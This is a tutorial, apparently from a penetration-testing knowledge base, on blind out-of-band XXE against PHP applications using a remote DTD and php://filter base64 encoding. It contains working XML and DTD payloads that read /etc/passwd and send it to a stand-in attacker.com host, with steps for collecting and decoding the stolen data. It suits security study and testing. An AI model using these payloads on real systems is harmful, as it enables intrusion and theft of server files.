

# XXE OOB with DTD and PHP Filter

## Context

This article demonstrates how to exploit blind XXE vulnerabilities in PHP applications by utilizing external DTDs and the `php://filter` stream wrapper. The objective is to exfiltrate sensitive data from a target server out-of-band. This technique involves base64-encoding the data and sending it over HTTP to an attacker-controlled endpoint. The reader should understand XML structure, DTD usage, PHP stream wrappers, Blind XXE fundamentals, and Out-of-Band XXE concepts.

## Theory

### php://filter Stream Wrapper and Base64 Encoding

`php://filter` is a special stream wrapper available in PHP, enabling data transformation during file reads or writes. One of its key features is the ability to apply filters such as `convert.base64-encode`, which facilitates encoding the contents of a file into base64 directly when accessed.

The following construct is employed in attacks: `php://filter/read=convert.base64-encode/resource=<file_path>`. This command reads the specified file and encodes its contents in base64, allowing attackers to subsequently extract this safely transmitted data.

### Dynamic DTDs for Out-of-Band Data Exfiltration

Dynamic DTDs refer to XML DTDs controlled externally by attackers and hosted on their own servers. These DTDs enable attackers to define specific entities intended for XXE payload exploitation. By referencing a remote DTD, it is possible to craft payloads where a PHP parser loads the provided DTD and executes the entity definitions embedded within it.

An attack sequence typically involves referencing a remote DTD that defines an entity to read and encode a file. The resulting encoded data is then exfiltrated via an HTTP request, sent back to the attacker's server.

### Exfiltration Workflow Using XXE, DTD, and php://filter

The process of leveraging XXE, DTD, and `php://filter` for data exfiltration can be illustrated with the following flowchart:



## Practice

### XXE OOB Exfiltration with DTD and php://filter

To execute this technique, follow the steps outlined below:

- **Host a malicious DTD file on your server:**

   The DTD will contain logic to read and encode a file as well as command the exfiltration via HTTP.

    ```xml
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
    ```

    This DTD reads `/etc/passwd`, encodes it in base64, and prepares to send it over HTTP.

- **Craft the XML payload to reference the external DTD:**

    This step is critical to triggering the remote DTD and executing the exfiltration sequence.

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
      <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
      %dtd;
      %all;
    ]>
    <data>&send;</data>
    ```

- **Send the crafted XML to the vulnerable PHP application endpoint:**

  Ensure that the target application passes this XML to its parsing logic.

- **Monitor your server logs for incoming HTTP requests:**

  Watch for requests containing base64-encoded data. Analyze the query strings for the encoded file contents.

- **Decode the exfiltrated base64 data to retrieve the original file contents:**

    Use the following command to decode the base64 string obtained from the exfiltration:

    ```bash
    echo '<base64-string>' | base64 -d
    ```

The outcome of this process is a successful exfiltration of sensitive files from the PHP server, transmitted as base64-encoded data over HTTP to the attacker's controlled environment.

## Tools

- **Burp Suite**
- **netcat**
- **Python HTTP server** 

This article has provided a comprehensive guide on leveraging XXE vulnerabilities with DTDs and `php://filter` for out-of-band data exfiltration. It combines theoretical understanding and practical instructions to equip you with knowledge for executing these advanced attack vectors effectively.